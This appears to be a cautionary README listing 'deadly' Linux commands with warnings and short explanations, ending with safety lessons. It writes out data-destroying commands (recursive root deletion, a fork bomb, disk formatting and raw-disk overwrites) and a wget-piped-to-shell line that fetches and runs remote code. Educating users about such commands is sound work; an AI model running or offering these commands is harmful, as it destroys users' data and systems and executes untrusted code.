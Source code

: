 Suicide Linux
============

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

Some of these commands need administration rights (e.g. sudo ...) to be executed, some Linux distributions enforce specific protection mechanisms. So it is not so simple to destroy your Linux machine, but pay attention in any case. 

## Warning!!
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


#### Wipeout!

`rm -fR /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


#### Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


#### Tabula rasa

`mkfs.ext4 /dev/sda1`

Do you remember `FORMAT C:` of the old DOS? this have the same result.

#### Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


#### Collecting Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


#### Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


#### Danger from the Outside

`wget http://example.com/something -O – | sh –`


#### No More Busy

`find / -name busybox -exec rm -f {} \;`

#### Don't Panic

`cat /dev/port`

## Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)

